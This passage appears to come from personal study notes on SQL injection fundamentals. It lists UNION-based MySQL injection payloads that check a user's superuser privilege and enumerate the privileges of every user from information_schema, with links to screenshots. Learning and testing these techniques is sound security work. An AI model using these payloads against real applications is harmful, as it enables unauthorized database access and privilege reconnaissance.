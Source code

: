 Checking privileges of current user

```sql
SELECT super_priv FROM mysql.user

#do users have superuser privileges?
'a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- 

#does this specific user have superuser privileges
'a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="username"-- 
```

- `super_priv` - superuser privileges; payloads return `Y` or `N`

![image.png](SQL%20Injection%20Fundamentals%202776c31c8f4a805f81d6ec370c9f38b0/image%2012.png)

```sql
#list privileges for all users
'a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- 

#list privileges for a specified user
'cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges
WHERE grantee="'username'"-- 
```

![image.png](SQL%20Injection%20Fundamentals%202776c31c8f4a805f81d6ec370c9f38b0/image%2013.png)
